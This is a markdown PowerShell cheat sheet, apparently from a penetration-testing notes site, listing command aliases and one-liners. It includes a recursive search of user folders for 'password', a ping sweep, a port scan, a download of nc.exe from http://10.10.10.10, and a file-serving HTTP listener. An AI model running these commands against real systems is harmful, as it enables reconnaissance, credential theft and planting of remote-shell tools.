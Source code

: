 ```yaml
---
title: Powershell
category: Misc
order: 8
---
```


>**Help and Finding Commands**

Function | Command
------------- | -------------
help | <code> help [cmdlet] -detailed, -example, -ful </code>
Properties and Methods of object or command | <code> [object/command] | gm </code>

>**Syntax**

Function | Command
------------- | -------------
List Commands | <code>get-command <set*, *process, ...> </code>
ls/dir | <code>Get-ChildItem (ls, dir, gci) </code>
copy/cp | <code>Copy-Item (cp, copy, cpi) </code>
move/mv | <code>Move-Item (mv, move, mi) </code>
find/findstr/grep | <code>Select-String (sls) </code>
help/man | <code>Get-Help (man, help) </code>
type/cat | <code>Get-Content (cat, type, gc) </code>
ps/tasklist | <code>Get-Process (ps, gps) </code>
cd/pwd | <code>Get-Location  (cd, pwd) </code>
History | <code>Get-History (history)  </code>
Check Command Before Execution | <code>-whatif </code>
Create Subset Objects | <code>get-service | select servicename, displayname </code>



>**Inventory, File Search, and Counting**

Function | Command
--------- | -------
Environment Variables | <code>ls env:, ls variable: </code>
Search for Files | <code>ls -r [dir] [string] 2> $null| % {echo $_.fullname} </code>
Search for text in files | <code>ls -r c:\users | % {select-string -path $_ -pattern password} 2>$null </code>

>**Network and Firewall**

Function | Command
--------- | -------
Ping Sweep | <code>1..255 | % {echo "192.168.2.$_"; ping -n 1 -w 100 192.168.2.$_ | select-string ttl} </code>
Port Scan | <code>1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("192.168.1.1", $_)) "Port $_ is open" } 2>$null </code>
Web Client Download | <code>(New-Object System.Net.WebClient).DownloadFIle("http://10.10.10.10/nc.exe", "c:\nc.exe") </code>

SimpleHTTPServer: 
{% highlight powershell %}
$Hso = New-Object Net.HttpListener 
$Hso.Prefixes.Add(""http://+:8000/"")
$Hso.Start()
While ($Hso.IsListening) {
$HC = $Hso.GetContext()
$HRes = $HC.Response
$HRes.Headers.Add(""Content-Type"",""text/plain"")
$Buf = [Text.Encoding]::UTF8.GetBytes((GC (Join-Path $Pwd ($HC.Request).RawUrl)))
$HRes.ContentLength64 = $Buf.Length
$HRes.OutputStream.Write($Buf,0,$Buf.Length)
$HRes.Close()
}
$Hso.Stop()
{% endhighlight %}


>**Piping and Loops**

Function | Command
--------- | -------
Format Output | <code>ps | format-list -property name, id, starttime (or * for all) </code>
Loops | <code>ForEach-Object { $_ }  <br> 1..10 | % {echo $_} </code>

>**Piping and Loops**

Function | Command
--------- | -------
Create a Service | <code>PS C:\>New-Service -Name "TestService" -BinaryPathName "C:\WINDOWS\System32\svchost.exe -k netsvcs" -StartupType manual </code>
Start a Service | <code>Start-Service TestService </code>
